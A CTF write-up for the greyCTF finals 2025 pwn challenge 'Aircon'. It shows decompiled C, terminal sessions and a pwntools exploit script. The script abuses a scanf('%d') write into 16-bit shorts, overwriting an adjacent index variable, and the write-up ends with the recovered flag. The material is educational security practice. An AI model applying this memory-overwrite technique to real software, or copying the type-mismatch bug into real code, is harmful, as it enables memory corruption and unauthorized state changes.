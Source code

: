 ```yaml
---
title: Aircon
date: 2025-06-29
tags: 
- pwn
- author-hartmannsyg
categories: greyCTF finals 2025
---
```


written by {% person hartmannsyg %}

> Last Monday, I accidentally turned off all 10 air-conditioners at my internship workplace without even realizing it. But what led to this moment? Solve this challenge to find out :)
>
> Goal is to set all air-conditioners to 25 degrees Celsius.
> 16/20 solves

This was the most solved pwn challenge by far, and yet we weren't able to solve it.

## The challenge

{% ccb terminal:true %}
1. Change air-con temp
2. View air-con temps
3. Get flag

> 2

[ID 0] Remote Temp: 20, Actual Temp: 20
[ID 1] Remote Temp: 21, Actual Temp: 21
[ID 2] Remote Temp: 22, Actual Temp: 22
[ID 3] Remote Temp: 23, Actual Temp: 23
[ID 4] Remote Temp: 24, Actual Temp: 24
[ID 5] Remote Temp: 25, Actual Temp: 25
[ID 6] Remote Temp: 26, Actual Temp: 26
[ID 7] Remote Temp: 27, Actual Temp: 27
[ID 8] Remote Temp: 28, Actual Temp: 28
[ID 9] Remote Temp: 29, Actual Temp: 29
{% endccb %}

We have 10 air-con remotes with their own temperature, and 10 actual air-con temperatures.

Our goal is to get all the actual temperatures to 25. However when we try to set one of them to 25:

{% ccb terminal:true %}
1. Change air-con temp
2. View air-con temps
3. Get flag

> 1

Which air-con remote to use:
0

What temperature to set to:
25

Changing temperature on remote ...
Updating temperature of air-con ...

Checking that all air-con temperatures are different ...

Error: Different air-cons have the same temperature displayed! I'm kicking u out!
{% endccb %}

```cpp
void change_aircon_temp(void)

{
  char cVar1;
  long in_FS_OFFSET;
  short remote_no;
  short temp;
  short remote_no_;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  remote_no = 0;
  remote_no_ = 0;
  temp = 0;
  puts("\nWhich air-con remote to use: ");
  __isoc99_scanf(&%d,&remote_no);
  remote_no_ = remote_no;
  puts("\nWhat temperature to set to: ");
  __isoc99_scanf(&%d,&temp);
  cVar1 = validate_inputs((int)remote_no,(int)temp);
  if (cVar1 != '\0') {
    puts("\nChanging temperature on remote ... ");
    *(int *)(AIRCON_REMOTE_TEMP + (long)(int)remote_no * 4) = (int)temp;
    puts("Updating temperature of air-con ...");
    *(undefined4 *)(AIRCON_ACTUAL_TEMP + (long)(int)remote_no_ * 4) =
         *(undefined4 *)(AIRCON_REMOTE_TEMP + (long)(int)remote_no * 4);
    cVar1 = aircon_has_same_temps();
    if (cVar1 != '\0') {
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
  }
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

```cpp
undefined8 aircon_has_same_temps(void)

{
  int local_10;
  int local_c;
  
  puts("\nChecking that all air-con temperatures are different ...");
  local_10 = 0;
  do {
    local_c = local_10;
    if (9 < local_10) {
      puts("Successfully updated air-con temperature!\n");
      return 0;
    }
    while (local_c = local_c + 1, local_c < 10) {
      if (*(int *)(AIRCON_REMOTE_TEMP + (long)local_10 * 4) ==
          *(int *)(AIRCON_REMOTE_TEMP + (long)local_c * 4)) {
        puts(
            "\nError: Different air-cons have the same temperature displayed! I\'m kicking u out!\n"
            );
        return 1;
      }
    }
    local_10 = local_10 + 1;
  } while( true );
}
```
We see that it:
- reads for our remote number `remote_no`
- copies it to another variable `remote_no_`
- read the temperature
- validate inputs
- `AIRCON_REMOTE_TEMP[remote_no] = temp`
- `AIRCON_ACTUAL_TEMP[remote_no_] = AIRCON_REMOTE_TEMP[remote_no]`

We can't really overflow offsets either the remote ID or the temperature as `validdate_inputs()` exists:
```cpp
undefined8 validate_inputs(short param_1,short param_2)

{
  undefined8 uVar1;
  
  if ((param_1 < 0) || (9 < param_1)) {
    puts("\nError: Your input air-con remote ID doesn\'t exist!\n");
    uVar1 = 0;
  }
  else if ((param_2 < 20) || (29 < param_2)) {
    puts("\nError: Your input temperature is too cold/hot!\n");
    uVar1 = 0;
  }
  else {
    uVar1 = 1;
  }
  return uVar1;
}
```

So we were kinda stuck here. The only valid inputs are those that do nothing, e.g. for air-con remote ID 5, set temperature to 25. However when I tried that:

{% ccb terminal:true highlight:25 %}
1. Change air-con temp
2. View air-con temps
3. Get flag

> 1

Which air-con remote to use:
5

What temperature to set to:
25

Changing temperature on remote ...
Updating temperature of air-con ...

Checking that all air-con temperatures are different ...
Successfully updated air-con temperature!

1. Change air-con temp
2. View air-con temps
3. Get flag

> 2

[ID 0] Remote Temp: 20, Actual Temp: 25
[ID 1] Remote Temp: 21, Actual Temp: 21
[ID 2] Remote Temp: 22, Actual Temp: 22
[ID 3] Remote Temp: 23, Actual Temp: 23
[ID 4] Remote Temp: 24, Actual Temp: 24
[ID 5] Remote Temp: 25, Actual Temp: 25
[ID 6] Remote Temp: 26, Actual Temp: 26
[ID 7] Remote Temp: 27, Actual Temp: 27
[ID 8] Remote Temp: 28, Actual Temp: 28
[ID 9] Remote Temp: 29, Actual Temp: 29
{% endccb %}

????????

The 0th aircon gets changed?? I wasn't sure what was going on and we kinda got stuck.

## Actual Solution

`%d` actually reads out 32 bits of data, which is greater than `remote_no` and `temp`'s 16 bits (they are `short`).

So when it reads from stdin the temperature of the remote, we can set `remote_no_` along with it.

## Script

```py
from pwn import *
from logging import log
elf = ELF('./aircon')
# context.log_level = 'DEBUG'
# p = process([elf.path])
p = remote('challs.nusgreyhats.org', 35130)
def change(remote, temp, realindex):
    p.sendlineafter(b'>', b'1')
    p.sendlineafter(b':', str(remote).encode())
    p.sendlineafter(b':', str(u32(p16(temp) + p16(realindex))).encode())

change(5, 25, 0)
change(5, 25, 1)
change(5, 25, 2)
change(5, 25, 3)
change(5, 25, 4)
change(5, 25, 5)
change(5, 25, 6)
change(5, 25, 7)
change(5, 25, 8)
change(5, 25, 9)
p.interactive()
```

{% ccb terminal:true %}
Flag: grey{one_rem0te_controls_a11_the_air_conditioners!}
{% endccb %}